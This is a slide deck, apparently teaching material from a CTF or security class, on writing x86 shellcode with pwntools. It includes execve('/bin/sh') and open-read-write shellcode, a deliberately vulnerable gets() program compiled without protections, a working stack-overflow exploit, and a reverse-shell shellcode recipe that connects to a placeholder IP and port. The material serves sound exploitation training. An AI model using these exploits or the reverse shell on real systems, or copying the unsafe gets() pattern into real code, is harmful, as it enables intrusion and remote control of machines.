

#Shellcode

廖子慶  
2017/2/21 <!-- .element: align="right" -->

---

# About

Run the code you send.
[Shellcode DB](http://shell-storm.org/shellcode/) <!-- .element: target="blank" -->

--

# Generate

```python
# set env
from pwn import *
context.arch="i386"

# code asm
org_asm="""
push 0x0068732f
push 0x6e69622f
mov ebx, esp

mov eax, 0xb
mov ecx, 0x0
mov edx, 0x0
int 0x80
"""

# compile asm
sc=asm(org_asm)
print sc

# run shellcode
io=run_shellcode(sc)
io.interactive()
```

--

# Use

Control the \$EIP to your shell code

--

# Vulnerability program

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char global[100];
void vul(){
    char buf[4];
    gets(buf);
    strcpy(global,buf);
    return;
}
int main(int argc, char *argv[])
{
    vul();
    return 0;
}
```

```shell
gcc -m32 -fno-stack-protector -z execstack -o demo ./demo.c
```

[demo](https://drive.google.com/open?id=0B5w3KuqR3zoBR0MzYllkRlM2X2c)

--

# Pwn it !

```python
from pwn import *
context.arch="i386"

elf=ELF('./demo')
padding=16

io=process('./demo')
payload='A'*padding
payload+=p32(elf.symbols['global']+len(payload)+4)
payload+=asm(shellcraft.sh())
io.sendline(payload)

io.interactive()
```

--



---

# Type

--

# execve('/bin/sh')

```asm
push 0x0068732f
push 0x6e69622f
mov ebx, esp

mov eax, 0xb
mov ecx, 0x0
mov edx, 0x0
int 0x80
```

```python
shellcraft.sh()
```

--

# Open & Read & Write

```asm
    jmp flag
write :
    pop ebx
    mov eax,5
    mov ecx,0
    int 0x80

    mov ebx,eax
    mov ecx,esp
    mov edx,0x60
    mov eax,3
    int 0x80

    mov edx,eax
    mov ebx,1
    mov eax,4
    int 0x80

    mov eax,1
    int 0x80

flag :
    call write
    .ascii "/home/orw/flag"
    .byte 0
```

--

# Reverse shell

```python
sc = asm(shellcraft.i386.linux.connect("ip", port) +
        shellcraft.i386.linux.dup2(3, 0) +
        shellcraft.i386.linux.dup2(3, 1) +
        shellcraft.i386.execve('/bin/sh'))
```

---

# Practice

---

#Q & A

--

#END
